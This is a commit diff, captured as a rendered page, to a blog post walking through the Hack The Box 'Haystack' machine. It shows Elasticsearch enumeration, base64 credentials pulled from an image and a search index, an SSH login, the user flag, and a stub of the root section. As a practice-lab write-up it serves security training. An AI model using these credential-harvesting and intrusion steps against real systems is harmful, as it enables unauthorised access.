

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-11-05-Hackthebox-Heystack-Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 3585 px. Shown: the top 1396 px of the window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
WIP haystack-walkthrough

```diff
--- a/_posts/2019-11-05-Hackthebox-Heystack-Walkthrough.md
+++ b/_posts/2019-11-05-Hackthebox-Heystack-Walkthrough.md
@@ -47,33 +47,119 @@ Sounds like only one page with heystack image available.
 
 Port 9200 enumeration:<br>
 We can figure out that Elasticsearch is running.
-![placeholder](https://inar1.github.io/public/images/2019-11-05/heystack-badge.png)
 {% highlight shell %}
-
+root@kali:~# curl http://10.10.10.115:9200/
+{
+  "name" : "iQEYHgS",
+  "cluster_name" : "elasticsearch",
+  "cluster_uuid" : "pjrX7V_gSFmJY-DxP4tCQg",
+  "version" : {
+    "number" : "6.4.2",
+    "build_flavor" : "default",
+    "build_type" : "rpm",
+    "build_hash" : "04711c2",
+    "build_date" : "2018-09-26T13:34:09.098244Z",
+    "build_snapshot" : false,
+    "lucene_version" : "7.4.0",
+    "minimum_wire_compatibility_version" : "5.6.0",
+    "minimum_index_compatibility_version" : "5.0.0"
+  },
+  "tagline" : "You Know, for Search"
+}
 {% endhighlight %}
 
 ### 2. Getting User
 
-At first, take a look at Elasticsearch.
+At first, take a look at port 80<br>.
+We have only one file "needle.jpg" there.<br>
+{% highlight html %}
+root@kali:~# curl http://10.10.10.115
+<html>
+<body>
+<img src="needle.jpg" />
+</body>
+</html>
+{% endhighlight %}
 
-
-
-Next, go back to port 80 again.<br>
-We have only one file "needle.jpg" there.<br>
 To check if something interesting there, we can use "strings" command.
 {% highlight shell %}
+root@kali:~# strings needle.jpg
+JFIF
+Exif
+paint.net 4.1.1
+UNICODE
+$3br
+%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
+	#3R
+&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
+sc,x
 
+~~~
+
+bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==
 {% endhighlight %}
 
 We found base64 encoded data.<br>
 Then, decode the message. We get a message with unknown language.
 {% highlight shell %}
-
+root@kali:~# echo 'bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==' | base64 -d
+la aguja en el pajar es "clave"
 {% endhighlight %}
 
 Google is always our friend. Translate the message.
 ![placeholder](https://inar1.github.io/public/images/2019-11-05/heystack-badge.png)
+{% highlight shell %}
+la aguja en el pajar es "clave"
+
+->
+the needle in the haystack is "key"
+{% endhighlight %}
+
+Then, go back to elasticsearch.
 
 
+To send a query to elasticsearch, we need a parameter "q".
+{% highlight shell %}
+root@kali:~# curl http://10.10.10.115:9200/_search?q=clave
+{"took":136,"timed_out":false,"_shards":{"total":11,"successful":11,"skipped":0,"failed":0},"hits":{"total":2,"max_score":5.9335938,"hits":[{"_index":"quotes","_type":"quote","_id":"45","_score":5.9335938,"_source":{"quote":"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}},{"_index":"quotes","_type":"quote","_id":"111","_score":5.3459888,"_source":{"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="}}]}}
+{% endhighlight %}
+
+We found other information. Translate it again.<br>
+We got a credential for user "security" to login with ssh.
+{% highlight shell%}
+root@kali:~# ssh security@10.10.10.115
+security@10.10.10.115's password:
+Last login: Tue Nov  5 14:44:15 2019 from 10.10.14.13
+[security@haystack ~]$ id
+uid=1000(security) gid=1000(security) groups=1000(security) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
+{% endhighlight %}
+
+As always, user.txt is in the home directory.
+{% highlight shell %}
+[security@haystack ~]$ ls -la
+total 16
+drwx------. 2 security security  99 Feb  6  2019 .
+drwxr-xr-x. 3 root     root      22 Nov 28  2018 ..
+lrwxrwxrwx. 1 root     root       9 Jan 25  2019 .bash_history -> /dev/null
+-rw-r--r--. 1 security security  18 Apr 10  2018 .bash_logout
+-rw-r--r--. 1 security security 193 Apr 10  2018 .bash_profile
+-rw-r--r--. 1 security security 231 Apr 10  2018 .bashrc
+-rw-r--r--. 1 security security  33 Feb  6  2019 user.txt
+
+[security@haystack ~]$ cat user.txt
+04d18bc79dac1d4d48ee0a940c8eb929
+{% endhighlight %}
 
 ### 3. Getting Root
+
+After got user, to identify the rinning process, run "pspy".<br>
+We can find that "logstash" is running as root.
+{% highlight shell %}
+
+{% endhighlight %}
+
+However, only user "kibana" can read the configuration file.<br>
+This time, we need a lateral movement.
+{% highlight shell %}
+
+{% endhighlight %}
```
